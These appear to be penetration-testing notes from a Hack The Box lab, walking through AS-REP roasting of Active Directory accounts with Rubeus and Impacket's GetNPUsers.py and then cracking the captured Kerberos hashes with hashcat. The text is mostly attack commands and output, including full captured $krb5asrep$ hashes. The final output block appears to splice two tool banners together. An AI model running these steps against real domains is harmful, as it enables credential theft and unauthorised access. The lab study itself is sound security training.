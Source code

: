 ### Dumping KRBASREP5 Hashes with Rubeus (local)

* `cd Downloads` - navigate to the directory Rubeus is in
* This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.

```
Rubeus.exe asreproast
```

#### Crack those Hashes with hashcat

* Transfer the hash from the target machine over to your attacker machine and put the hash into a txt file
* Insert `23$` after `$krb5asrep$` so that the first line will be $krb5asrep$23$User.....
* Crack those hashes! Rubeus AS-REP Roasting uses hashcat mode 18200

```
hashcat -m 18200 hash.txt Pass.txt
```

### AS-REP Roasting with Impacket (remote)

* This attack takes advantage of users that have `UF_DONT_REQUIRE_PREAUTH` set.  This will allow us to steal their `$krb` hash, which once cracked will allow remote authentication via rdp winrm, smb etc.

```
sudo python /opt/impacket/examples/GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request -usersfile /home/kali/Documents/htb/forest/loot/user.txt
#output
Impacket v0.10.1.dev1+20220704.185348.f2eb2b65 - Copyright 2022 SecureAuth Corporation

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:12a052338596b97da3d3a45db829b01d$f6a2d6438e7afec40f4a6a8c798dd5489953e91c742248dba6d8549d8b0adde9e9d655fc58653d9c66c618139e51c4e30bf2639c867f96803118c9f08c7e7f09c21b817cdb495dd57715f501d0ca3d7aebe61f9fda4e8b31232516cfd1c2237278e3e0de31d180042bc2a588d907b1001b24657350683f005d6db20fdaac5e06412c1a90ef75e5f962254fcc9e3094e0396d354f0c17211ea081d13b1c822366ef2c256d39572872d38d475c934f322b75129bdf05cc737a555446ee62265c22cb6e92ea890ec23da455e5fb715d0ac8db5630e85a2bef7210b5e59555073a0dcbd8cc1118fc
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
 
```

```
sudo python /opt/impacket/examples/GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161
Impacket v0.10.1.dev1+20220704.185348.f2eb2b65 - Copyright 2022 SecureAuth Corporation
Password: 
[*] Cannot authenticate svc-alfresco, getting its TGT $krb5asrep$23$svc-alfresco@HTB.LOCAL:1d6d0d121b56b32b2b13b689da2a8893$c01bfb3b9d3b472411c8897fe6557997d08bf5c8bb31c07a7a5370aebd2a99a7684434d8e8e50105e855cf3e7d4c80c4dabada3416fd9c6cc38cc0775c7e627f3828a044fe6441985b65210356304fa90bbd4a3c33fd969f03eeee745f299678ecdeb759add7a6afd46713f7f44e3118bdc74f44d37f891b6c899e46858f93c830470148ac49af820d007628513cf72b86f568072d0dc7c7d2f25b11bbc223168d05050133865ba1aedfe8e4c1bd24fefe599f20be7faf48b3306afb5345988b9de69f1760b14575f5cdf0814d8f8fc087aba7959fdeceffc2edc492cca735d09c9b0ee6f0c9Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation
```
